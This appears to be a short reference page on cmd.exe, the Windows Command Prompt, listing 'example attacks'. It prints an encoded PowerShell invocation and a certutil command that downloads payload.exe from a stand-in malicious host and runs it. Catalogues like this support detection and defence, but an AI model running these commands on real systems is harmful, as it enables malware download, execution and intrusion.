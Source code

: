 # cmd.exe
## What is it?
*cmd.exe is the Windows Command Prompt.*

# Example Attacks
```
cmd.exe /c "powershell -enc <base64>"

cmd.exe /q /c "certutil -urlcache -f http://malicious[.]site/payload.exe C:\temp\payload.exe & start C:\temp\payload.exe"
```
